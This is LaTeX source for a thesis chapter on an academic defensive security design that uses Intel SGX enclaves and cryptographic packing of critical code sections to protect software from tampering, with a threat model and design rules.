%monitor their executions and set legitimate and anomalous ones apart.
%Although one can equip the enclaves with mechanisms tailored at counteracting 
%specific threats, research has shown such solutions are brittle and cover a 
%limited threat model, mostly focusing on code-reuse attacks, while neglecting 
%vectors that induce deviation from normal
%behaviors~\citep{tale-two-worlds,teerex,biondo2018guard,lee2017hacking}.
%Moreover, current runtime remote attestations focus on
%stateless properties, \ie they only model independent executions.  On
%the contrary, TEEs are stateful objects modeled as finite states
%machines (FSM), as described by \cite{costan2016intel}.
%Therefore, they require more complex representations.
%
%After observing all these limitations, we study a runtime RA that can be
%employed in SGX enclaves. We describe our study in 
%Chapter~\ref{chp:runtime-protection-trusted}.
%
%\subsection{Incident Response Limitations}
%\label{ssec:contribution4}
%
%Then addressed in Chapter~\ref{chp:forensic}.


\chapter{Trusting Computing Technologies}
\label{chp:background} 


This is the background of Trusting Technologies, mainly SGX and TrustZone (?).
\chapter{A Practical and Scalable Software Protection enforced by TEE}
\label{chp:static-protection} 

%Here, I answer to the following question: \textbf{is a program loaded in 
%memory 
%as intended?}
%
%The answer to this question is addressed in two papers:
%\begin{itemize}
%	\item Careful-Packing: A practical and scalable anti-tampering software 
%	protection enforced by trusted computing (CODASPY 2019).
%\end{itemize}
%
%\todo{stuff from the paper}

\section{Introduction}
%The widespread of commercial software and of potential security threats makes 
%it necessary to develop systematic 
%protection mechanisms.
%For instance, a customer could attempt to use a program 
%without paying the license fee~\cite{hacklicense}, a player might cheat in a 
%video-game~\cite{hoglund2006hacking}, or an anti-virus software can be 
%sabotaged~\cite{doubleanget} by malware.
%To achieve these goals, a common strategy is to edit the binary code of such 
%software in order to alter its logic.
%These threats are often referred to as Man-At-The-End attackers 
%(MATE)~\cite{AKHUNZADA201544}.
%Both academic researchers and commercial companies have spent an extensive 
%effort against MATE 
%threats~\cite{banescu2017detecting,ghosh2010secure,collberg2002watermarking, 
%evenbalance,vac,janusdrm}.
%The goal of the defending mechanisms is to guarantee that an attack 
%cannot change the software logic to some extent. 
%It is possible to achieve this goal in different ways, \eg through 
%anti-tampering 
%techniques~\cite{nagra2009surreptitious} or through trusted computing 
%technologies~\cite{helbig1998trusted}.
%
%Anti-tampering techniques allow a software to inspect itself and check whether 
%its code has been modified.
%We refer to those techniques as \emph{self-checking}, which literally read the 
%binary code of the protected software by using special functions called 
%\emph{checkers}.
%The checkers compute a digital fingerprint of the software bytecode and verify 
%whether that fingerprint matches a 
%pre-computed value~\cite{nagra2009surreptitious}. 
%%The latter is often referred to as \emph{self-checking}.
%On the other hand, trusted computing technologies 
%provide dedicated hardware so that the software can be executed in secure 
%containers which are physically separated from the rest of the system.
%Those containers are composed of memory regions that cannot be directly 
%read/written by other processes (either from kernel-space or from user-space).
%%It is possible to execute software and store information in the secure 
%%container such that other processes (either from kernel-space or from 
%%user-space) cannot directly interact with the protected memory.
%Trusted computing technologies are further reinforced against physical attacks 
%such as 
%flashing BIOS/firmware, page swap, or page cache 
%attacks~\cite{costan2016intel}.
%
%However, both anti-tampering and trusted computing have limitations. 
%On the one hand, purely software-based anti-tampering techniques are not 
%completely secure, since the defending mechanisms reside in an untrusted 
%memory 
%region and a determined attacker can identify and disarm such defenses.
%It is possible to harden anti-tampering techniques by using a combination of 
%additional 
%approaches~\cite{banescu2017tutorial,chen2016advanced,chang2001protecting,viticchie2016reactive}
% that raise the bar for the attackers but that do not 
%fundamentally address the problem~\cite{horne2001dynamic}.
%On the other hand, trusted computing technologies, which provide higher 
%security guarantees than purely software-based solutions, often have 
%practical limitations, e.g., software within a secure container cannot 
%directly 
%interact with the hosting 
%operating system (OS); and the secure container often has size 
%limitations~\cite{baumann2015shielding}.
%Previous works studied solutions that move part of the OS functionality inside 
%a trusted 
%region~\cite{baumann2015shielding,arnautov2016scone,tsai2017graphene},
%but they introduce further complexity %(\eg Drawbridge 
%%system~\cite{porter2011rethinking}) 
%for employing a secure interaction with the rest of 
%the world (\eg networking, file system).
%Other authors suggested protecting only portions of the 
%code~\cite{schuster2015vc3,lind2017glamdring}.
%However, these approaches do not address critical limitations such as the 
%interaction with the underlying OS, or the limited amount of memory.
%%Indeed, designing trusted containers that can handle graphical interfaces 
%%requires to rethinking the interaction container/OS.
%Limited memory makes it unsustainable to deploy all processes in dedicated 
%trusted containers.
%For instance, machines featured with Intel Software Guard eXtension 
%(SGX)~\cite{rozas2013intel} provide only a few hundred megabytes that must be 
%shared among all the running trusted containers.
%If we consider processes such as Skype or Firefox, which require around 
%$100$MB 
%each,
%we need multiple trusted containers for each process to protect.
%Therefore, this approach does not scale for multiple parallel processes.
%The introduction of SGX 2.0 allows modifying the size of a single trusted 
%container but it does not modify the maximum memory available for trusted 
%containers.

%\todo{probably starts from here}
In this chapter, we propsoe a technique that overcomes the limitations of both 
pure anti-tampering and trusted computing by combining both approaches.
We extend hardware security features of trusted computing over untrusted memory 
regions by using a minimal (possibly fixed) amount of code.
To achieve this, we harden anti-tampering functionality (\eg checkers) by 
moving them in trusted components, while critical code segments
(which invoke the checkers stored within a trusted module) are protected by 
cryptographic packing.
As a result, we keep the majority of the software outside of the secure 
container, this leads to three advantages:
\begin{enumerate*}[label=(\roman*)]
	\item we avoid further sophistication in communicating with the OS,
	\item we maximize the number of trusted containers issued 
	contemporaneously, and 
	\item we also maximise the number of processes protected.
\end{enumerate*}

Realizing our idea in practice is non-trivial.
Besides the self-checking functionalities, we need to carefully design other
phases of our approach such as installation, boot, and response.
The installation phase must guarantee that the program is installed properly, 
while 
the boot phase should validate that the program starts untampered. Both phases 
require us to solve the attestation problem.
The third phase, the response, is the mechanism which allows a program to 
react against an attack once it has been detected.
Moreover, trusted computing technologies, such as SGX, do not offer stand-alone 
threads 
that can run independently of insecure code. Instead, protected functionality 
needs 
to be called from (potentially) insecure code regions. As a result, such 
technologies  
do not provide \emph{availability} guarantees. 
Therefore, one design aspect of our solution is to cope with and mitigate 
\emph{denial of service} threats.
%we strengthen anti-tampering techniques because we move their sensitive code 
%inside secure containers.

As a proof-of-concept, we implemented a monitoring application
which integrates our approach. 
For this example, we opted for SGX as a trusted module. 
The application is an agent which traces user's events (\ie mouse movements 
and keystrokes) and stores the data in a central server.
We developed the monitoring agent in C++ and we deployed it in a Windows 
environment.
In our implementation, we designed the checkers to monitor those
functions dedicated to collect data from the OS, while the response was 
implemented as a 
digital fingerprint which represents the status of the client 
(\ie client secure, client tampered).
%Through this implementation we aim to show that our technique is less invasive 
%then previous ones and that the overhead in term of lines of code (LoC) and 
%benchmarks is low, tow LoCs for checker and around $5\%$ of overhead on 
%average 
%respectively.
%This implementation also helps us to illustrate how to achieve a secure 
%installation and boot phases.

To evaluate our approach, we systematically analyze which attacks can be 
performed against our approach and we show that, with the user monitoring 
application, our solution provides better protection than previous approaches. 
%In theory, our approach may suffer from just-in-time Patch \& Repair attacks, 
%where an attacker may try to bypass our protection by injecting malicious code 
%in between two unpacking/packing operations and checking. To conduct such 
%attack, 
%the attacker is required to inject the code such that it is executed without
%being detected by the checkers. 
%We show how this scenario is practically impossible without 
%controlling task scheduler.
We measure the overhead of our approach in terms of Lines of Code (LoC), 
execution time, and trusted memory allocated. We 
show that fewer than $10$ LoC are required to 
integrate our approach, while the trusted container requires around $300$ LoC.
Furthermore, the overhead in terms of execution time is 
negligible, i.e., on average $5.7\%$ \wrt the original program.
During our experiment, we managed to run and protect up to 90 instances at the 
same time.
%Finally, we will show that a single trusted container requires only $300KB$.
%Lastly, we discuss how our approach could be included seamlessly in the 
%software life-cycle.

\vspace{-0.25cm}
\paragraph{\textbf{Problem Statement:}} 
The research question we are addressing in this work is thus: Is it possible 
to extend trusted computing security guarantees to untrusted memory regions 
without moving the code entirely within a trusted module?

\vspace{-0.25cm}
\paragraph{\textbf{Contributions:}}In summary, the contributions of this paper 
are:

\begin{enumerate*}[label=(\textbf{\alph*})]
	\item We propose a new technique to extend trusted computing over untrusted 
	zones minimizing the amount of code to store within a trusted module.
	\item We propose a technique to mitigate \emph{denial-of-service} problems 
	in trusted computing technologies.
	\item We propose an algorithm for achieving a secure installation and boot 
	phase.
\end{enumerate*}

\section{Threat Model}
\label{ssec:back-attacker}

In a tampering attack, the goal of an attacker is to edit the code of a victim 
program~\cite{collberg2002watermarking}.
This goal can be achieved in different ways.
One way is to change the bytecode of a program before its execution, this is 
called \emph{off-line} tampering.
That is, the attacker first analyzes the binary of the program and then 
disables/removes the anti-tampering mechanisms.
The challenge for an attacker is thus to remove the anti-tampering mechanism 
without compromising the program logic.
Using tools such as debuggers or analyzers, the attacker can deduce how the 
anti-tampering protection works and disable it accordingly.
To cope with \emph{off-line} attacks, it is possible to adopt anti-tampering 
mechanisms based on digital fingerprint mechanisms.
They employ a cryptographic fingerprint of software (\eg signature, hash, 
checksum) to validate software status before the 
execution~\cite{diversig,Abera:2016:CCA:2976749.2978358}.
Besides \emph{off-line} attacks, there are the so-called \emph{on-line} attacks.
In this category, the attacker aims to edit the code during the execution of 
the victim program.
Such attacks can be performed either from the kernel-space or from the 
user-space.
The key to such attacks is to synchronize the attacker and the victim process 
such that the victim code is edited in a way unnoticed by the anti-tampering 
mechanism.

In our scenario, an attacker can compromise the victim logic (\ie the bytecode) 
by using both \emph{off-line} and \emph{on-line} approaches.
%The final goal is to run the (edited) victim software in the original 
%environment.
We also consider acceptable to steal the victim software, or a piece of, as 
long as this keeps the environment unaltered.
A suitable example for our scenario is represented by distributed anti-viruses. 
This software is composed by a client-server infrastructure and they are 
commonly used in companies. 
In particular, the clients report the status of their host machine to a central 
server, and the server stores the reports and eventually notifies an intrusion.
In our example, it is possible to mount a set of attacks that will be easily 
detected.
For instance, if a client is disabled, the central server will detect the 
anomaly, similarly if an unauthorized client is installed.
If an attacker manages to steal a copy of the client software, it may be 
possible to run a tampered client in a controlled environment made ah-hoc, 
however, as long as the attacker cannot run such client in the original 
infrastructure, there is not effective damage for the companies.
%Alternatively, an attacker may achieve to run a client in an external 
%infrastructure made ad-hoc (different by the corporate one), however, in this 
%case the original corporate infrastructure will not result compromised at all.
A tampered client becomes really dangerous when the attacker manages to run 
such client in the corporate environment in order to 
%Besides all previous attempts, a serious threat is represented by an attacker 
%who manges to tamper with a client (\eg through malware) in order
allow illicit activities. In this case, the attack has to happen such that the 
central server does not recognize the anomaly.
%We designed our solution to cope with such scenarios, that will be recalled in 
%Section~\ref{sec:approach} and Section~\ref{sec:implementation}.

The attacker model we consider works at user-space level; therefore, we assume 
the kernel is healthy.
Having a healthy kernel is acceptable in corporate scenarios where the machines 
are constantly checked.
Moreover, a user-space threat (\eg user-space malware, spyware) is generally 
simpler to mount than one at kernel-space.
%\todo{here}
Even though we assume having a trusted kernel, and we could have  instantiated 
our approach on the kernel itself, we opted to implement our PoC by using SGX 
in order to raise the bar for attackers that have compromised the kernel, as we 
will discuss in the following sections.
%This makes the attack more cumbersome.
We also assume the machines are not virtualized, this avoids the attacker to 
use VMX features~\cite{uhlig2005intel}.
Moreover, we assume the task scheduler is trusted, this is crucial to avoid a 
perfect synchronization of two processes (see Section~\ref{sec:just-in-time}).

To sum up, the adversary we face has the following properties:
\begin{enumerate*}[label=(\roman*)]
	\item he can analyze and change the binary \emph{off-line};
	\item he can change the \emph{on-line} memory of a victim process at 
	runtime;
	\item he cannot tamper with the task scheduler;
	\item he cannot virtualize the victim machine.
\end{enumerate*}

\section{Design}
\label{sec:approach}

%The family of solutions which guarantee the application code remains the same 
%during software execution are called \emph{anti-tampering} techniques.
Our \emph{anti-tampering technique} is an extension of the classic 
\emph{self-checking}
mechanism. In the following, we describe how we improve upon existing 
techniques with trusted computing technologies. We start with a description of 
the problem addressed and then analyze
limitations of existing approaches before explaining how our idea can help to 
limit the attacking surface of existing approaches.

\subsection{Challenges}
\label{ssect:design-theory}
%We use a simple software abstraction to illustrate the technical challenges we 
%face, and the security guarantees we desire to achieve.
In our model, a program's execution can be described as a triplet $(M,b,i)$ 
where $M$ represents the state of the program (\ie memory), $b$ is the sequence 
of instruction to execute (\ie code section) and $i$ denotes the next 
instruction to execute (\ie instruction pointer).
For simplicity, we focus on sequential and deterministic programs, whose 
instructions are executed step-by-step; however, in Section~\ref{sec:approach} 
we will discuss also multi-threading scenarios.
Each step of the program can be represented as follows:
\[ (M,b,i) \rightarrow (M^\prime,b^\prime,j), \]
where $M^\prime$ is the updated memory status, $b^\prime$ is the updated 
instruction sequence, and $\rightarrow$ is the small-step semantics of the 
program.
From a software security point of view, a program should satisfy the following 
properties:
\begin{enumerate*}[label=(\textbf{\roman*})]
	\item the next instruction $j$ must be decided uniquely by the program 
	logic (\ie $M$ and the current instruction at $i$);
	\item the program state $M'$ must be determined according to the previous 
	program state $M$, and the instruction executed $i$; %, and its code 
	%section (\ie $M^\prime=f(M,b,i)$),
	\item instructions $b$ must not change during the program execution (\ie 
	$b=b^\prime$).
\end{enumerate*}
Note that we assume that the application code is not dynamically generated, and 
that input and output operations happen through writing/reading operation in 
the memory.

Property (\textbf{i}) is related to the control flow integrity 
problem~\cite{8269390}, which is guaranteed neither by anti-tampering 
techniques~\cite{nagra2009surreptitious} nor by trusted 
computing~\cite{lee2017hacking}.
But it is tackled by tools such as~\cite{microsoftcfg,tice2014enforcing} and 
discussed in previous 
works~\cite{onarlioglu2010g,wang2010hypersafe,abadi2005control,zhang2013control,davi2014stitching}.

Property (\textbf{ii}) can be guaranteed by moving only sensitive data inside a 
trusted module and using \emph{get()}\textbackslash{}\emph{set()} functions for 
interacting with them.
This was already implemented by Joshua et al.~\cite{lind2017glamdring} in their 
Glamdring tool.
%However, the latter can be even improved by keeping all values inside untrusted
%memory regions along with a signature, and access to them by using 
%\emph{get()}\textbackslash{}\emph{set()} functions as we already outlined.
Such a solution is prone to space constraint because it keeps data within the 
trusted module (\ie an enclave).
%this can be still overcame by adopting
%\emph{get()}\textbackslash{}\emph{set()} API which 
%\todo{MO: I don't understand the last sentence}
%\feedback{FT: I tried to make it simpler}

Property (\textbf{iii}) can be implemented by moving all code inside trusted 
modules, which was the first approach 
employed~\cite{baumann2015shielding,arnautov2016scone,tsai2017graphene}.

However, simply moving all code into the trusted module has two problems.
First, a trusted module has a limited amount of memory available, and therefore 
only
certain critical sections can be executed securely.
Second, the application needs access to other OS layers to interact with the 
environment (network, peripherals).
Our approach aims to address these limitations.

A naive \emph{anti-tampering} mechanism is to run a \emph{checker} function 
over the entire code $b$ right before executing any instruction. This is 
described as follows:
\[ (M,b,i) \rightarrow check(b) \rightarrow (M^\prime,b^\prime,j), \]
where the $check()$ function verifies the integrity of the code $b$.
This approach verifies the integrity of the entire application code at each 
step. However, this is inefficient since a program must read its entire code at 
each step. Furthermore, we must protect the \emph{checker} function throughout 
the program.

In order to address space and efficiency constraints, as suggested 
in~\cite{brumley2004privtrans,singaravelu2006reducing,smith2006refactoring}, we 
may consider only certain parts of the program to be sensitive, which are 
referred to as \emph{critical sections} (CS) hereafter.
CSs include delicate parts of the software such as license checking in 
commercial products. We could thus focus on protecting only the critical part 
of the program and checking a block of instructions instead of the entire 
program (\ie CSs).
%From a practical point of view, a critical section might be a block of code or 
%longer sections of software which we aim to protect.
%After these consideration,
%We can thus reformulate the technique previously described by performing a 
%check over the critical section.
%That checking might be performed before its execution.
%This is illustrated by the following formula:
That is, instead of checking every instruction in every step, we check only the 
CSs.
Therefore, the function \texttt{check()} is executed when we encounter an 
instruction starting a CS.
This is illustrated as follows:
%\begin{align}
\begin{align}
	(M,b,i) & \xrightarrow{\text{if}~i~\in~\text{CS}} check(CS) \rightarrow 
	(M^\prime,b^\prime,j) \nonumber \\
	(M,b,i) & \xrightarrow{\text{else}} (M^\prime,b^\prime,j), \nonumber
\end{align}
where $i~\in~\text{CS}$ means the instruction \emph{i} is the beginning of a 
critical section \emph{CS} and \emph{check(CS)} checks the critical section 
$CS$.

%This model is only a generic concept of our technique, which will be fully 
%described in the following sections.
Intuitively, even though the above idea improves the efficiency of the 
anti-tampering mechanism, it is still subject to attacks. Firstly, it is 
subject to just-in-time patch \& repair. That is, an attacker could synchronize 
its actions to change the victim code right after the checking and restore the 
original code before the checker is executed again.
To conduct such an attack (without having to compromise the task scheduler), 
the attacker and the software to be protected must run as concurrent processes, 
and the attack must time its actions according to the task scheduler.
We argue that this attack is practically very challenging to carry out.
In Section~\ref{sec:just-in-time}, we discuss the feasibility of such attacks 
in more depth.
Secondly, an attacker may compromise the anti-tampering mechanisms (\ie modify 
the checkers and responses). 
Defenses against these attacks already exist.
For instance, one may employ code obfuscation on \emph{checkers} and 
\emph{responses} so that the attacker would not identify them; or design the 
\emph{checkers} and \emph{responses} such that they are strongly interconnected 
with the application code~\cite{biondi2006silver} so it is challenging to 
compromise the anti-tampering mechanisms without compromising the application 
logic; or move part of the code (\eg checkers and responses) to the 
server~\cite{viticchie2016reactive}.
These approaches are however prone to a similar threat, \ie all of them 
allocate their detection system in untrusted zones, 
and therefore, with enough time any attacker can understand and disarm these 
systems.

\subsection{Anti-Tampering based on Trusted Computing}

In this section, we will present the technical solutions to realize our 
approach in a real system.
%Realizing our approach to a real system requires us to overcome a set of not 
%trivial technical challenges, in this section we will present our solutions.
To achieve this, we require a trusted module to harden anti-tampering 
techniques.
For the sake of coherence with our proof-of-concept implementation (see 
Section~\ref{sec:implementation}), we use the Intel Software Guard eXtension 
(SGX)~\cite{rozas2013intel} terminology.
However, it is possible to use other trusted modules (see 
Section~\ref{ssec:discussion}).

\begin{figure}[t]
	\centering
	
\includegraphics[width=0.7\textwidth]{fig_c3/core-all.pdf}
	\caption{An overview of our schema for single-thread applications, the 
	memory is split in trusted and untrusted zones. The trusted zone contains 
	all methods required for our technique, while in the untrusted zone we show 
	the interaction of those methods with the CSs.}
	\label{fig:core-all}
\end{figure}

Unlike previous solutions that simple ``hide'' checking functions by adopting
obfuscation or anti-reversing 
techniques~\cite{banescu2017tutorial,chang2001protecting,chen2016advanced,viticchie2016reactive},
 we store
code relevant to the anti-tampering mechanism in a trusted module (\ie an 
enclave),
through which we monitor and react to attacks conducted on
the untrusted memory region.
Saving anti-tampering mechanisms within trusted containers is significantly 
different from previous purely software-based solutions since an attacker 
cannot directly tamper with them.
This is illustrated in Figure~\ref{fig:core-all}, which presents an overview of 
our technique.
In detail, a given application is divided into two zones: an untrusted zone (on 
the left side) and a trusted zone (on the right side).
The untrusted zone contains the entire application code,
whereas the trusted zone contains all functions and global variables employed 
by our anti-tampering technique, such as \emph{checkers} and \emph{responses} 
(shown in blue).
The untrusted zone is further divided into different regions: the CSs which we 
aim to protect (shown in red), the non-sensitive blocks (shown in pale yellow) 
and the code for calling the trusted functions in the trusted zone (shown in 
green).
We also included three labels (\ie a, b, and c) to identify specific regions 
that will be used ahead in the discussion.
By using this structure, we can check the status of the untrusted zone by being 
inside the trusted zone.
%FLAVIO: that's not true anymore :D
%Note that we keep the same color convention for describing next figures.

\paragraph{\textbf{Critical Section Definition}}
A CS is any continuous region of code which is surrounded by two instructions, 
respectively labeled as \emph{CS\_Begin} and \emph{CS\_End}, and that satisfies 
the following rules:

\begin{enumerate}
	\item\label{vcs:function} \emph{CS\_Begin} and \emph{CS\_End} must be in 
	the same function.
	\item\label{vcs:sequence} For each program execution, \emph{CS\_Begin} is 
	always executed before \emph{CS\_End}.
	\item\label{vcs:noexit} Every execution path from a \emph{CS\_Begin} must 
	reach only the corresponding \emph{CS\_End}.
	\item\label{vcs:nooverlap} Every execution path which connects 
	\emph{CS\_Begin} and a \emph{CS\_End} must not encounter other 
	\emph{CS\_Begin} instructions.
	\item A CS cannot contain try/catch blocks
	\item We consider function calls from within a CS as atomic,	\ie we do 
	not consider the called function as a part of the CS.
	\item\label{vcs:loops} The loops contained by a CS must be bounded to a 
	known constant.
\end{enumerate}
Points~(\ref{vcs:sequence}) and~(\ref{vcs:noexit}) can be implemented by using 
a forward analysis~\cite{moller2012static} of all possible branches from 
\emph{CS\_Begin} to \emph{CS\_End}, and considering all function calls as 
atomic operations.
We also desire that a CS contains only unwinding loops to minimize the time in 
which a CS is plain.
The other points are simply static patterns.
The above rules are implemented by static analysis at compilation time.
If a CS does not satisfy one of those requirements, the compilation process is 
interrupted.
Therefore, we assume having only valid CSs at runtime.

In order to maintain the application stable, and to reduce the attacker 
surface, we desire that at most one CS remains decrypted (plain) during each 
thread execution.
This is achieved by introducing a global variable, called \emph{plain\_cs}, 
within the trusted zone (as illustrated in Figure~\ref{fig:core-all}-\text{c}).
The variable \emph{plain\_cs} indicates which CS is currently decrypted.
Also, as we will illustrate later, the value of \emph{plain\_cs} is updated by 
\texttt{encrypt()} and \texttt{decrypt()} functions.
%This indicates the plain CS, if any, and it is updated only by 
%\texttt{decrypt()} and \texttt{encrypt()} functions.
%More precisely, \texttt{decrypt()} sets the variable to the CS passed as 
%argument, while \texttt{encrypt()} sets the variable to \emph{Null}.
%This helps us to keep the program in a stable state and to reduce the attack 
%surface to only one CS at the time.
%Next techniques are therefore built by taking in consideration all CS as 
%\emph{valid}, and the global variable \emph{PLAIN\_CS}.
For sake of simplicity, we describe the following techniques by considering 
only single-thread programs.
While we extend our approaches to multi-threading programs at the end of this 
section.

%\begin{figure}[t]
%	\centering
%	\begin{subfigure}[t]{.32\textwidth}
%		\centering
%		
\includegraphics[width=\textwidth]{fig_c3/core-prototype}
%		\caption{Protection prototype.}
%		\label{fig:core-prototype}
%	\end{subfigure}
%	\qquad
%	\begin{subfigure}[t]{.4\textwidth}
%		\centering
%		
\includegraphics[width=\textwidth]{fig_c3/core-general}
%		\caption{Packaging algorithm.}
%		\label{fig:core-general}
%	\end{subfigure}
%	\caption{\todo{FT: very ugly!}}
%\end{figure}

%\begin{subfigure}[t]{0.5\textwidth}
%\centering
%
\includegraphics[width=0.5\textwidth]{fig_c3/core-response}
%\caption{Heartbeat algorithm.\todo{maybe remove it}}
%\label{fig:core-response}
%\end{subfigure}

\paragraph{\textbf{Overcoming Denial of Service Issues}}
Even if a trusted function is protected from being tampered with, usually 
trusted computing components do not provide availability guarantees, in the 
sense that the code in the trusted zone must be invoked externally.
We overcome this limitation by employing \emph{packing}~\cite{ugarte2016rambo}, 
a technique which is often used by malware to hide its functionality, combined 
with a heartbeat~\cite{ghosh2010secure}. %, which is depicted in 
%Figure~\ref{fig:sc-1p}.
Our intuition is to force the untrusted zone to call trusted functions in order 
to execute application logic.
This configuration is depicted in Figure~\ref{fig:core-all}-\text{a}.
In the beginning, CSs are encrypted (red shape). Therefore an attacker cannot 
directly change CSs' content, and the code cannot be executed unless unpacked.
%The block will be decrypted only for a small amount of time.
Each CS is surrounded by calls to two functions, which are called 
\texttt{decrypt()} and \texttt{encrypt()}.
In our design, \texttt{decrypt()} and \texttt{encrypt()} functions has the role 
of \emph{checkers}.
Those functions take a CS identification (\eg CS address) as an input, then 
they apply cryptographic operations to the CS by using a \texttt{private key}. 
The \texttt{private key} is stored inside the trusted module (see 
Figure~\ref{fig:core-all}-\text{c}).
The first call (green shape) points to
the \texttt{decrypt()} function which performs three operations:
\begin{enumerate*}[label=(\roman*)]
	\item it decrypts the CS,
	\item it sets \emph{plain\_cs} to CS, and
	\item it performs a hash of the code to check the CS integrity.
\end{enumerate*}
Once this checker is executed, the CS contains plain assembly code that can be 
processed.
As a result, the untrusted zone \emph{must} call the checker in order to 
execute the CS's code.
%After the CS, a second call to the second checker (green shape) points to the 
%\texttt{encrypt()} function which performs three operations:
After the CS, a second call (green shape) points to the \texttt{encrypt()} 
function which performs three operations:
\begin{enumerate*}[label=(\roman*)]
	\item it encrypts the CS,
	\item it sets \emph{plain\_cs} to \emph{NULL}, and
	\item it performs a hash of the code to check the CS integrity.
\end{enumerate*}
